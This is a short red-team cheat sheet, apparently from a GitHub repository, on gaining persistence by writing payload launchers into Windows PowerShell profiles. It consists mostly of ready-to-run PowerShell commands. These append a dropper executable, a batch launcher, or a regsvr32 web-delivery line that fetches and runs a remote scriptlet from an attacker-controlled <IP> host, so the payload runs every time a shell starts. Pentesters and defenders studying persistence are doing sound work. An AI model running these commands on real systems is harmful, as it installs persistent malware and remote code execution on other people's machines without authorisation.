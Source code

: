 # PowerShell Profile

## 01 - PowerShell

### 1.1 - Dropper Implant

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Start-Process "C:\tmp\pentestlab.exe"'
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

### 1.2 - Batch Script Dropper Implant

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

### 1.3 - Web Delivery

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Invoke-Command -ScriptBlock { regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

---
## References

- [Pentestlab Blog: Persistence Powershell Profile](https://pentestlab.blog/2019/11/05/persistence-powershell-profile/)

- [Abusing Powershell Profiles](https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/)

- [PowershellProfile Macro](https://github.com/enigma0x3/PowershellProfile/blob/master/Macro)